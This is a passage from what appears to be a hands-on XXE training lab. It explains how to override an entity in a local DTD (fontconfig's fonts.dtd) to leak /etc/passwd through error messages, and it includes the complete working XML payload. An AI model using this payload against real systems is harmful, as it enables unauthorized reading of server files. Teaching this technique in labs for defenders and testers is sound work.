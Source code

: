 The malicious XML we are looking to inject in the `[MALICIOUS]` placeholder is the following:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
```

When `%eval` will be evaluated, the concatenation will occur.

### Overview

In summary, here are the steps that will be needed during the XML parsing:

1. Initialize local DTD
2. Overrides one of its entities (replace the entity)
3. Evaluate ELEMENT and ENTITY from the local DTD

The final evaluation should trigger the injection of new entities doing the same concatenation trick used in external DTD.


### Final payload

The payload we are going to send will look like this:

```xml
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">

<!ENTITY % constant '><!ENTITY &#x25; file SYSTEM
"file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY
&#x26;#x25; error SYSTEM
&#x27;file:///nonexistent/&#x25;file;&#x27;>"><!ELEMENT
dummy(123 '>
<!ELEMENT patelt (%constant;)*>


    %local_dtd;
]>
<message></message>
```

To see it in action, pass to the next section.

If you want to know more about the different injection patterns, visit this blog post: [Automating local DTD discovery for XXE exploitation](https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/).









## LAB 5: Exfiltration with local DTD
Duration: 00:15:00

![Preview website](assets/exercise5/image4.png)
